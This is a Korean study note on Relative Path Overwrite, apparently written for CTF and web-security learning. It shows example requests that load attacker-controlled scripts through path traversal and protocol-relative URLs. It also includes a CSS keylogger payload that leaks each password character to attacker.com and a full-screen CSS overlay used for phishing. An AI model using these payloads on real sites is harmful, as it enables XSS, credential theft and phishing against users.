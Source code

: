 # Concept
- Relative Path Overwrite

- relative URL, 즉 상대 경로 기반의 URL을 덮어써서 의도하지 않은 동작을 수행하는 공격 방법
- Relative Path Confusion이라고도 불림

- [[RFI]]와 의 차이점은 RFI는 주로 외부에서 파일을 가져와 실행시키려는 것이고, RPO는 원격서버에서 파일 경로 또는 코드를 가져와서 포함시키려는 것
- 혼용되는 경우가 많다고 함

# Example
- Absolute URL(Host가 포함된 URL)
```html
<script src=”https://www.hahwul.com/file.js”>
```

- Relative URL(Host가 포함되지 않은 URL)
```html
<src=”/file.js”>
```

- link, script 등 resource를 읽어오는 과정에서 Host가 포함되지 않은 URL을 Relative URL이라고 하고, 이를 Overwrite할 수 있는 경우에 resource의 주소 등을 조작하여 공격자가 원하는 액션으로 유도할 수 있게 됨(사실상 XSS임)

- Path traversal과 동일하게 `../` 를 이용해 상위 경로의 다른 파일을 로드하거나, 
- Protocol-relative URL 을 이용하여 Host를 공격자가 원하는 도메인으로 변경하여 공격을 수행할 수 있음


- Path traversal

```
[ Req ]
GET /page?sink=../../../upload/my_script.js

[ Res ]
<script src="asset/js/vendor/../../../upload/my_script.js"></script>

```

- Protocol-relative URL

```
[ Req ]
GET /page?test=//www.hahwul.com/xss.js

[ Res ]
<script src="//www.hahwul.com/xss.js"></script>

```


- 일반적인 시나리오로는 XSS와의 연계를 하여 공격하는 것
- 공격자의 remote 서버, 또는 해당 도메인에 업로드가 가능한 경로를 찾아 
- xss 코드가 포함된 js 파일을 업로드하고, Relative Path Overwrite를 통해 이를 트리거

- 풀어봤던 문제 중에 가장 신박했던 것은 이 취약점을 이용해 오히려 보호기법이 적용된 js파일을 로드하지 못하게 해 익스를 엄청나게 쉽게 했던 문제가 있었음

# Sequential Import Chaining
CSS를 컨트롤할 수 있는 경우 이를 이용하여 Keylogger와 같은 페이로드를 구성할 수 있음

```css
input[name=password][value^=a]{
	background: url('https://attacker.com/a');
}
input[name=password][value^=b]{
	background: url('https://attacker.com/b');
}
/* ... */
input[name=password][value^=9]{
	background: url('https://attacker.com/9');   
}
```

다음과 같은 css를 로드하게 만들면, 해당 input box에서 버튼을 누를때 마다,
원격 서버에서 해당 키를 누르게 된 것을 알게 된다.


# Phishing
CSS Injection과 동일하게 position:fix 등으로 레이어를 분리하고, 
악의적인 컨텐츠를 담아 피싱등을 유도할 수 있음

```css
.attack {
	position: fixed;
	top: 0;
	left: 0;
	width: 100%;
	height: 100%;
	z-index: 999999;
}
```



# Reference
[한울님 자료](!https://www.hahwul.com)
